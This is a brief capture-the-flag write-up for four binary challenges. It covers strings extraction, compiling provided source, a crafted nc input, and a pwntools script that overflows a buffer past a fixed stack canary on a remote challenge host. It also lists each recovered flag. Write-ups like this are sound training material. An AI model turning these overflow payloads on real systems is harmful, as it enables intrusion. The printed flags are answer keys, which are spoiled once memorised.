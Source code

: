 +++
title = "Binary"
weight = 1
+++

## be01

The flag was stored inside the binary and could be retrieved with strings

`strings be01 | grep Flag`

flag: `sTriNGS-r-EZ-7819`

## be02

the provided source code printed out the flag when executed

`gcc be02.c; ./a.out`

flag: `c0mpILE-tIME_1822`

## bm01

the flag checks if one character in your input is b and if it is it will give you the flag

`python -c "print('b' * 79)" | nc ggcs-bm01.allyourbases.co 8134`

flag: `c0MinG-Up_bs-8788`


## bh02

simple constant stack canary.  The canary was `:)` and the loop terminated if the byte after it was `f`

```python
from pwn import *

context.terminal = ['termite', '-e']


# p = process('./bh02')
# p = gdb.debug("./bh02")
p = remote('ggcs-bh02.allyourbases.co', 8133)


buf_length = 0x50

payload = b'f' * 0x32 + b':)f'

print(p.recvuntil(":"))

p.sendline(payload)

p.interactive()
```
